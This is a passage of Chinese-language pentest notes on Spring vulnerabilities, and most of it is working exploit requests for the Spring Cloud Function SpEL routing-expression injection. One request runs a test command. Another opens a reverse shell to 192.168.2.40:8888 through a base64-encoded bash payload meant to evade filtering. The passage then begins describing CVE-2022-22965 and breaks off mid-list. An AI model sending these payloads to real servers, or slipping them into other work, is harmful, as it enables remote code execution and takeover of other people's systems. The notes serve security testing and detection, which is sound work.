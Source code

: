 POC:

```
POST /functionRouter HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4

test
```

反弹shell，需要base64规避字符串分割问题：

```
POST /functionRouter HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuNDAvODg4OCAwPiYx}|{base64,-d}|{bash,-i}")
Content-Type: text/plain
Content-Length: 4

test
```

此漏洞较为简单，插件可扫描，为重点关注对象。但插件检测结果欠佳，python命令行工具可检测：

![](/zj_img/WEBRESOURCE604f0f4ede3055ab59afdede62ca7a1c截图.png)

## 8、Spring框架Data Binding与JDK 9+导致的远程代码执行漏洞（CVE-2022-22965） 也就是Spring core RCE

SpringMVC支持将HTTP请求中的的请求参数或者请求体内容，根据Controller方法的参数，自动完成类型转换和赋值，同时SpringMVC支持多层嵌套的参数绑定。攻击者通过HTTP请求修改日志文件的文件名、文件内容、文件后缀、文件存放路径参数的值，从而在服务器生成木马文件，造成RCE。

影响范围：

JDK版本：JDK 9+


Spring Framework版本：

